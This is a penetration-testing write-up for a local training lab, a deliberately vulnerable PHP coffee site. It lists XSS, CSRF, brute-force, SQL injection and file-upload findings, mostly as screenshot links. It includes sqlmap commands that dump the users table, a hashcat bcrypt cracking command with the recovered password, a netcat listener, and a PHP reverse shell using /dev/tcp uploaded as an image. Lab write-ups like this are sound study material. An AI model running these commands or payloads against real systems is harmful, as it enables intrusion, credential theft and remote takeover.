 Lab: http://localhost/capstone/index.php

# Recon

## General

![[Pasted image 20240327094628.png]]
## Admin interface

![[Pasted image 20240326214911.png]]

![[Pasted image 20240326215121.png]]

# Reflected XSS

## GET parameter *message*

PoC:
![[Pasted image 20240326213418.png]]

![[Pasted image 20240326213518.png]]

# Stored XSS
## Add rating

![[Pasted image 20240326213629.png]]

# CSRF

## Add rating

![[Pasted image 20240326214348.png]]

# Brute-Force

## Login

![[Pasted image 20240326214633.png]]

# SQL injection

## GET parameter *coffee*

PoC:
![[Pasted image 20240327085808.png]]

Exploitation:
Enum all databases:
```bash
sqlmap -u http://localhost/capstone/coffee.php?coffee=INJ -p coffee --dbs
```
![[Pasted image 20240327090249.png]]

Enum tables of db "peh-capstone-labs":
```bash
sqlmap -u http://localhost/capstone/coffee.php?coffee=INJ -p coffee -D peh-capstone-labs --tables
```
![[Pasted image 20240327090343.png]]

Dump table "users":
```bash
sqlmap -u http://localhost/capstone/coffee.php?coffee=INJ -p coffee -D peh-capstone-labs -T users --dump
```
![[Pasted image 20240327090531.png]]

# Cracking admin hashes

With some googling => bcrypt hashes

```bash
hashcat -m 3200 admin_hashes.txt /usr/share/wordlists/rockyou.txt
```

Success! Jeremy's password:
![[Pasted image 20240327092232.png]]
jeremy:captain1

# File Upload

As admin we can access the site http://localhost/capstone/admin/admin.php, where we can add a new coffee. We have also the possibility to upload an image file for the entry.

Setup a netcat listener for reverse shell on the attacker machine:
```bash
nc -vlnp 8888
```

Reverse shell:
```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/8888 0>&1'"); ?>
```

Upload an image file "rshell.php" with the reverse shell as payload:
![[Pasted image 20240327104440.png]]
The image is moved by the application. We have to access the uploaded file under http://localhost/capstone/assets/37.php, where 37 (in our case) is the uploaded image number.

Upon accessing the above URL the php code is executed giving us a system shell:
![[Pasted image 20240327104404.png]]